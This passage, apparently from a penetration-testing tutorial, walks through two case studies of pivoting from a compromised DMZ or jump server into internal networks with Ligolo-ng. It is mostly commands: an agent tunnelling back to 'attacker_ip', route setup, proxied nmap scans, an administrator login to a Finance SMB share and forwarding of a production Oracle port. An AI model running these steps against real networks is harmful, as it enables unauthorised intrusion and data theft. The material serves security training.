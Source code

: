## Real-world Scenarios

### Case Study 1: Corporate Network Pivot

Scenario: Initial access to a DMZ server (192.168.1.5) with the goal of accessing the internal corporate network (10.0.0.0/8).

```bash
# Setup on attacker machine
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
sudo ./proxy -selfcert -laddr 0.0.0.0:11601

# On compromised DMZ server
./agent -connect attacker_ip:11601 -ignore-cert

# In Ligolo-ng console
ligolo-ng » session 0
ligolo-ng (192.168.1.5) » ifconfig
ligolo-ng (192.168.1.5) » start
ligolo-ng (192.168.1.5) » socks5 127.0.0.1:1080

# On attacker machine
sudo ip route add 10.0.0.0/8 dev ligolo

# Discovery
proxychains nmap -sT -p 80,443,445,3389 10.0.1.0/24

# Access sensitive data server
proxychains smbclient -U administrator //10.0.1.50/Finance/ 'P@ssw0rd!'
```

### Case Study 2: Segmented Production Environment

Scenario: Access to a jump server (10.10.10.5) that connects to production networks (172.16.0.0/16) with database servers.

```bash
# First pivot setup (as described earlier)
# After accessing the jump server:

# On jump server
./agent -connect attacker_ip:11601 -ignore-cert

# In Ligolo-ng console
ligolo-ng (10.10.10.5) » start
ligolo-ng (10.10.10.5) » listener_add --addr 0.0.0.0:1521 --to 172.16.1.10:1521 --name oracle_prod

# On attacker machine
sudo ip route add 172.16.0.0/16 dev ligolo

# Access production database
sqlplus user/password@localhost:1521/PROD
```
